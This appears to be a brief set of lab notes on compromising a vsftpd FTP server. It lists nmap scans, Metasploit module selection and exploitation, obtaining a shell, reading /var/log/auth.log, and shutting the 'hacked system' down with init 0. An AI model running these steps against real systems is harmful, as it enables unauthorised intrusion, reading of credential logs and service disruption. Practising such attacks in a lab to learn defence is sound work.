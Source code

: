 Metasploite
nmap -sn ip/24 
nmap meta ip 
nmap -sU ip 
ftp ip 
nmap ip 
nmap -O ip 
msfconsole ---> 
search vsftpd 
use link 
show options 
set Rhosts ip 
show options 
exploit 
shell to acess the system 
then enter cat /var/log/auth.log 
init 0 ---------> shut down the hacked system
